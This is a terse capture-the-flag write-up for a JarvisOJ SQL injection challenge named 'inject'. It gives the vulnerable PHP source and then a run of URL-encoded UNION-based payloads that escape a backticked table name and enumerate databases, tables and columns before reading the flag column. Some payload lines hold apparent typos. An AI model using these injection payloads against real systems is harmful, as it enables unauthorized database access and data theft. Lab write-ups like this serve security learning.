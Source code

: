 inject

>http://web.jarvisoj.com:32794

```
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```

```
test`%20`union%20select%20database()%20limit%201,1
```

```
test`%20`union%20select%20group_concat(schema_name)%20from%20information_schema.schemata%20limit%201,1
```

filter '  > database()

```test`%20`union%20select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()limit%201,1
```

>secret_flag,secret_test

```
test`%20`union%20select%20group_concat(table_name)%20from%20information_schema.column%20where%20table_name=secret_flaglimit%201,1
```

```
test`%20`union%20select%20group_concat(column_name)%20from%20information_schema.columns%20limit%201,1
```

```
test`%20`union%20select%20flagUwillNeverKnow%20from%20secret_flag%20limit%201,1
```
